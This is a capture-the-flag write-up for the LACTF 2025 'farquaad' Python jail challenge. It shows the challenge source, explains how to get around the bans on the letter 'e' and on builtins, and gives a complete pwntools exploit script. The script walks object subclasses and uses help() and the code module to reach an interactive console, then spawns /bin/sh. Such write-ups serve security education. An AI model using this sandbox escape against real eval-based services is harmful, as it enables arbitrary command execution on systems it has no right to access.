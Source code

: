 # LACTF 2025 farquaad

```python
#!/usr/local/bin/python3
import string
import html

code = input()

if any(c not in string.printable for c in code):
    print("no tomfoolery!")
    exit()

if "e" in code or "E" in code:
    print("no 'e'!")
    exit()

print(html.escape(repr(eval(code, {"__builtins__": {}}))))
```

Requirements:

1. Only printable characters
2. No `e` or `E`: Use `list(x.__dict__)[index]` to find strings with `e` in it and call it via `x.__dict__[list(x.__dict__)[index]](args)`
3. No builtins: Use `().__class__.__mro__[1].__subclasses__()`

Steps:

1. Find the index of `__subclasses__` in `type.__dict__`
2. Call `().__class__.__mro__[1].__subclasses__()` and find the indices of `<class '_sitebuiltin._Helper'>` and `<class '_sitebuiltin._Printer>` in `().__class__.__mro__[1].__subclasses__()`
3. Enter help() system and load `code` module
4. Find `sys` module via `<class '_sitebuiltin._Printer'>` and call `sys.modules["code"].InteractiveConsole().interact()`

Avoid `e` and `E` by using the `x.__dict__[list(x.__dict__)[index]](args)` trick.

Attack script:

```python
from pwn import *
import html

context(log_level="debug")

# Step 1. Find the index of `__subclasses__` in `type.__dict__`
p = process(["python3", "farquaad.py"])
# find type.__subclasses__
# list(type.__dict__)
# [].__class__: list
# ().__class__.__class__: type
p.sendline(b"[].__class__(().__class__.__class__.__dict__)")
res = p.recvline().decode()
res = html.unescape(res)
subclasses_index = res.split(", ").index("'__subclasses__'")

# Step 2. Call `().__class__.__mro__[1].__subclasses__()`
# and find the indices of `<class '_sitebuiltin._Helper'>` and `<class '_sitebuiltin._Printer>` in `().__class__.__mro__[1].__subclasses__()`
p = process(["python3", "farquaad.py"])
# type.__subclasses__(object)
# type.__subclasses__(().__class__.__mro__[1])
p.sendline(
    (
        "["
        # type
        + "T:=().__class__.__class__,"
        # "__subclasses__"
        + f"S:=[].__class__(T.__dict__)[{subclasses_index}],"
        # type.__subclasses__(object)
        + "T.__dict__[S](().__class__.__mro__[1])"
        + "]"
    ).encode()
)
res = p.recvline().decode()
res = html.unescape(res)

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>") - 2
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>") - 2
print("Helper", helper_index)
print("Printer", printer_index)

# Step 3. Enter help() system and load `code` module
p = process(["python3", "farquaad.py"])
# invoke help()
p.sendline(
    (
        "["
        # type
        + "T:=().__class__.__class__,"
        # "__subclasses__"
        + f"S:=[].__class__(T.__dict__)[{subclasses_index}],"
        # type.__subclasses__(object)[helper_index]()()
        + f"T.__dict__[S](().__class__.__mro__[1])[{helper_index}]()()"
        + "]"
    ).encode()
)
p.recvuntil(b"help> ")
p.sendline(b"code")
p.recvuntil(b"help> ")
# return to farquaad
p.sendline(b"farquaad")

# Step 4. Find `sys` module via `<class '_sitebuiltin._Printer'>`
# and call `sys.modules["code"].InteractiveConsole().interact()`

# launch code.InteractiveConsole().interact()
p.sendline(
    (
        "["
        # type
        + "T:=().__class__.__class__,"
        # "__subclasses__"
        + f"S:=[].__class__(T.__dict__)[{subclasses_index}],"
        # type.__subclasses__(object)[printer_index].__init__.__globals__["sys"]
        + f"sys:=T.__dict__[S](().__class__.__mro__[1])[{printer_index}].__init__.__globals__['sys'],"
        # "modules"
        + "M:=[x for x in sys.__dict__ if x.startswith('modul')][0],"
        # "code"
        + "C:=[x for x in sys.__dict__[M] if x.startswith('cod')][-1],"
        # code module
        + "c:=sys.__dict__[M][C],"
        # "InteractiveConsole"
        + "I:=[x for x in c.__dict__ if 'Consol' in x][0],"
        # "interact"
        + "i:=[x for x in c.__dict__[I].__dict__ if 'ract' in x][0],"
        # code.InteractiveConsole.interact(code.InteractiveConsole())
        + "c.__dict__[I].__dict__[i](c.__dict__[I]()),"
        + "]"
    ).encode()
)
# in interactive shell
p.recvuntil(b">>> ")
p.sendline(b"import os")
p.sendline(b'os.system("/bin/sh")')
p.interactive()
```
